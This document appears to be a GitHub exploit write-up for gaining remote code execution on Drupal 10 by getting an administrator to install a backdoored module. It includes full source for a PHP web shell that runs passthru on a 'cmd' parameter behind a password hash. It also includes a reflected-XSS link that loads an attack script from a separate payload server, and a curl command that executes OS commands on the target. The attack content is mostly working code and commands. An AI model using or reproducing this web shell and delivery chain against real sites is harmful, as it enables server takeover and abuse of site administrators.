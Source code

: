 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `HelloWorldController.php`

    (`hello_world.info.yml`)

    ```
    name: hello_world
    type: module
    description: 'Hello World custom module'
    package: custom
    version: 1.0
    core_version_requirement: ^10
    ```

    (`hello_world.routing.yml`)

    ```
    hello_world.hellomsg:
      path: '/hello-world'
      defaults:
        _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
        _title: 'Hello World!!'
      requirements:
        _permission: 'access content'
    ```

    (`src/Controller/HelloWorldController.php`)

    ```
    <?php

    namespace Drupal\hello_world\Controller;

    class HelloWorldController {
      public function message() {
        if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
        return [
          '#markup' => 'Hello World message from custom module'
        ];
      }
    }
    ```

2. [create backdoored CMS module] create Drupal module

    ```
    tar cvf hello_world.tar.gz *
    ```

3. [setup exploit] change payload variable values (`installModuleDrupal.js`)

    `exploitURL` - URL of Drupal module (containing backdoor) to be installed on target site

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload/module)

5. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

6. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.15/installModuleDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.15` - web server hosting payload

7. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
    ```

8. [uninstall module] uninstall module via GUI

    *Drupal ➔ Extend ➔ [tab] Uninstall ➔ (filter by name) hello ➔ (mark checkbox) Hello World ➔ Uninstall ➔ Uninstall*

9. [uninstall module] remove module from filesystem

    ```
    sudo su
    cd /var/www/html/drupal/modules
    rm -rf hello_world
    ```

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 7 from the "Exploitation Steps" chapter

![Image](screenshots/Drupal_-_install_module_-_1-1.png)
